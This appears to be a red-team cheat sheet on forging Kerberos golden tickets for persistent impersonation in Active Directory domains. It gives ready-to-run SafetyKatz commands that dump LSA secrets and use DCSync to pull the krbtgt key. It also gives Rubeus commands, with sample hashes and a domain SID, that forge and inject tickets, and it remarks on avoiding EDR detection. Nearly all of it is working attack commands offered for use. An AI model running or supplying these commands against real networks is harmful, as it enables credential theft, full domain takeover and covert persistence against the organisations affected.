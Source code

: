 >**ℹ️ Info:**
> Useful for long term persistance being able to impersonate any user on domain and non-domain computers.
---
# Methodology
>1. Retrieve the AES-256 key of the `krbtgt` account.
>2. Forge and inject the ticket.
>3. Impersonate any user.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz

**Retrieve the AES-256 key of the `krbtgt` account:**
```cmd
SafetyKatz.exe '"lsadump::lsa /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\krbtgt"'
```

## Rubeus
**Forge a golden ticket with similar attributes to a normal TGT:**
```cmd
# With an NTLM hash (Usually flagged by EDRs)
Rubeus.exe golden 
/rc4:32ED87BDB5FDC5E9CBA88547376818D4 /sid:S-1-5-21-210670787-2521448726-163245708 /ldap /user:Administrator /printcmd /ptt

# With an AES-256 key (Admin cmd required)
Rubeus.exe golden 
/aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /sid:S-1-5-21-210670787-2521448726-163245708 /ldap /user:Administrator /printcmd /ptt
```

>**ℹ️ Info:**
>We use the domain SID in this case to avoid Rubeus getting confused when in a multi-domain enviroment.